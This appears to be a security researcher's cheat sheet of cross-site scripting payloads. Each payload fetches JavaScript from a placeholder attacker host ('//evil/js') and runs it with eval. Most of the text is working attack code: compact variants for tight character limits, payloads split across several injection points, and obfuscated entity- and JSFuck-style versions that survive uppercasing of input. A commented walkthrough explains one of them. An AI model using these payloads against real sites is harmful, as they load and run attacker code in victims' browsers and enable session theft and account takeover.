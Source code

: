 ### Fetch an external resource ###

Brief summary of the work of [@aurainfosec](https://github.com/aurainfosec).

For example purposes the malicious JavaScript is at `//evil/js`.

The payload:
```
fetch('//evil/js').then(r=>r.text().then(eval))
```

**Usecase: character limit is &gt;= 20 (not including wrapping). Dealing with limited space**
```
T=(o,f)=>o.then(f)
X=eval
Y='//evil/js'
Z=r=>T(r.text(),X)
J=_=>T(fetch(Y),Z)
setTimeout(_=>J(),9)
```

**Usecase: character limit is &gt;= 13 (not including wrapping). Payloads order on page __does__ matter.**
```
p=Promise
P=p.prototype
t=P.then
tc=t.call
T=tc.bind(t)
r=Response
R=r.prototype
z=R.text
zc=z.call
Z=zc.bind(z)
E=eval
j='//evil/js'
J=fetch(j)
T(T(J,Z),E)
```

### Usecase: character limit is &gt;= 10
* *Works with arbitrary payloads*
* *No additional wrapping needed*
* *`<script>` must not be blocked and must not appear between the payloads*
* *Payloads order on page __does__ matter.*

```
<script>/*
*/X="f"+/*
*/"etc"+/*
*/"h('"+/*
*/"//e"+/*
*/"vil"+/*
*/"/js"+/*
*/"')."+/*
*/"the"+/*
*/"n(r"+/*
*/"=>r"+/*
*/".te"+/*
*/"xt("+/*
*/").t"+/*
*/"hen"+/*
*/"(ev"+/*
*/"al)"+/*
*/"))"/*
*/;eval/*
*/(X);
</script>
```
### Dealing with input transformation

##### Usecase: payload is being capitalized, character limit &gt;= 131 (not including wrapping and length of external resource URL)
* *Works with arbitrary payloads*
* `<script>`**_payload_**`</script>` won't work; use event handlers

```
X="FETCH(\"//EVIL/JS\").THEN(R=>R.TEXT().THEN(EVAL))";&#X65;&#X76;&#X61;&#X6C;(X.&#X74;&#X6F;L&#X6F;&#X77;&#X65;&#X72;C&#X61;&#X73;&#X65;())
```

**Explanation:** The second part of the payload is `eval(X.toLowerCase())`.

**Note:** `<script>` doesn't work here, because the HTML characters won't be interpreted. Payload must be in an event handler. For example:

```
<SVG/ONLOAD='X="FETCH(\"//EVIL/JS\").THEN(R=>R.TEXT().THEN(EVAL))";&#X65;&#X76;&#X61;&#X6C;(X.&#X74;&#X6F;L&#X6F;&#X77;&#X65;&#X72;C&#X61;&#X73;&#X65;())'/>
```

##### Usecase: payload is being capitalized, character limit &gt; ~342 (not including wrapping, may vary depending on external resource URL)
* *Works with arbitrary payloads*
* X can be any function that doesn't involve lowercase letters. Some examples are:
  * `URL` and `$`: don't work inside event handlers
  * `USB` and `CSS`: don't have good cross-browser support
  * `[][F[0]+(1/0+[])[3]+F[2]+F[2]]` used below, where `F` is "false", gives `[]["fill"]`, i.e. `Array.prototype.fill`: works in all browsers and in all places

```
T=!0+[];F=!1+[];X=[][F[0]+(1/0+[])[3]+F[2]+F[2]];Y=X+[];S=F[3]+F[2]+Y[5]+Y[3]+F[4];C=Y[3]+Y[S](6,8)+F[3]+T[S](0,3)+Y[S](3,5)+Y[6]+T[1];N=C[S](8,10)+(""[C]+[])[S](9,15);(X[C](25885457[N](36)+"('//"+694029[N](36)+"/"+712[N](36)+"')."+1375583[N](36)+"("+27[N](36)+"=>"+27[N](36)+"."+1372385[N](36)+"()."+1375583[N](36)+"("+693741[N](36)+"))"))()
```

**With comments:**

```
T=!0+[]; // "true"
F=!1+[]; // "false"
// I=1/0+[]; // "Infinity"
X=[][F[0]+(1/0+[])[3]+F[2]+F[2]]; // []["fill"], i.e.
                                  // Array.prototype.fill
Y=X+[]; // "function ...", to get letters "c" and "o"
S=F[3]+F[2]+Y[5]+Y[3]+F[4]; // S="slice"
C=Y[3]+Y[S](6,8)+F[3]+T[S](0,3)+Y[S](3,5)+Y[6]+T[1];
                                  // C="constructor"
N=C[S](8,10)+(""[C]+[])[S](9,15); // N="toString";
                                  // <number>["toString"](36)
                                  // can give any number or
                                  // lowercase letter as string
J=25885457[N](36) // "fetch"
+"('//"
+694029[N](36) // "evil"
+"/"
+712[N](36) // "js"
+"')."
+1375583[N](36) // "then"
+"("
+27[N](36) // "r"
+"=>"
+27[N](36) // "r"
+"."
+1372385[N](36) // "text"
+"()."
+1375583[N](36) // "then"
+"("
+693741[N](36) // "eval"
+"))";
(X[C](J))(); // X[C] is Array.prototype.fill["constructor"],
             // i.e. Function.prototype. It creates an
             // anonymous function with J as the body, which
             // is then executed
```
**PLUS**
```
<SCRIPT>/*
*/T=!0/*
*/+[];/*
*/F=!1/*
*/+[];/*
*/I=1/0/*
*/+[];/*
*/X=/*
*/F[0]+/*
*/I[3]+/*
*/F[2]+/*
*/F[2];/*
*/X=[]/*
*/[X];/*
*/Y=/*
*/X+[];/*
*/C=/*
*/Y[3]+/*
*/Y[6]+/*
*/Y[7]+/*
*/F[3]+/*
*/T[0]+/*
*/T[1]+/*
*/T[2]+/*
*/Y[3]+/*
*/Y[4]+/*
*/Y[6]+/*
*/T[1];/*
*/S=""/*
*/[C]/*
*/+[];/*
*/N=/*
*/C[8]+/*
*/C[9]+/*
*/S[9]+/*
*/S[10]+/*
*/S[11]+/*
*/S[12]+/*
*/S[13]+/*
*/S[14];/*
*/Q=/*
*/X[C];/*
*/R=A=>/*
*/Q(A);/*
*/O=A=>/*
*/A[N]/*
*/(36);/*
*/V=2588/*
*/*10000/*
*/+5457/*
*/J=O(V)/*
*/J+=/*
*/"('//"/*
*/V=/*
*/694029/*
*/J+=/*
*/O(V);/*
*/J+=/*
*/"/";/*
*/J+=/*
*/O(712)/*
*/J+=/*
*/"')."/*
*/W=1375/*
*/*1000/*
*/+583/*
*/J+=/*
*/O(W)/*
*/J+=/*
*/"("/*
*/J+=/*
*/O(27)/*
*/J+=/*
*/"=>"/*
*/J+=/*
*/O(27)/*
*/J+=/*
*/"."/*
*/V=W-/*
*/3198/*
*/J+=/*
*/O(V)/*
*/J+=/*
*/"()."/*
*/J+=/*
*/O(W)/*
*/J+=/*
*/"("/*
*/V=/*
*/693741/*
*/J+=/*
*/O(V)/*
*/J+=/*
*/"))";(/*
*/R(J))/*
*/();
</SCRIPT>
```
